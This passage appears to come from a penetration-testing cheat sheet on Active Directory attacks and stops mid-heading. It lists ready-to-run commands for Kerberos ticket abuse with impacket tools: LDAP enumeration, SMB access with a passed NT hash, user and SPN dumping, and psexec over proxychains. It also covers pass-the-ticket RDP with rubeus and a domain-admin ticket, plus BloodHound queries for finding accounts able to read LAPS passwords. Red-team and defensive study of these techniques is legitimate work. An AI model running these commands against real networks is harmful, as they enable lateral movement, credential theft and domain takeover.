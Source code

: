 Use `-k` and `--no-pass` with impacket tools.

```
# ldap
ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName

# smb
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
proxychains smbclient '\\10.9.0.200\share$' -U 'vault.local/bob%357e1382f274f51526f1e263cef0f67d' --pw-nt-hash

# impacket get AD users
proxychains GetADUsers.py -all -k -no-pass -dc-ip 172.16.83.168 complyedge.com/pete

# impacket get SPNs
proxychains GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator

# impacket psexec
proxychains psexec.py pete@dmzdc01.complyedge.com -k -no-pass
```

##### Pass the Ticket (PTT) Remote Desktop Protocol (RDP)

```
# setup the domain
> ksetup /addkdc VAULT.LOCAL dc1.vault.local
> ksetup /addrealmflags VAULT.LOCAL tcpsupported

# pass the ticket
> .\rubeus.exe ptt /ticket:c:\users\attacker\desktop\domain_admin.kirbi

# rdp
> mstsc /remoteGuard /v:dc1.vault.local
```

##### Resources
- https://github.com/sosdave/KeyTabExtract
- https://packages.debian.org/stretch/krb5-user

### Local Administrator Password Solution (LAPS)

#### Enumerate

BloodHound

```
# find computers with LAPS enabled
MATCH (c:Computer {haslaps: true}) RETURN c

# find groups that can read LAPS
MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p
```

CS
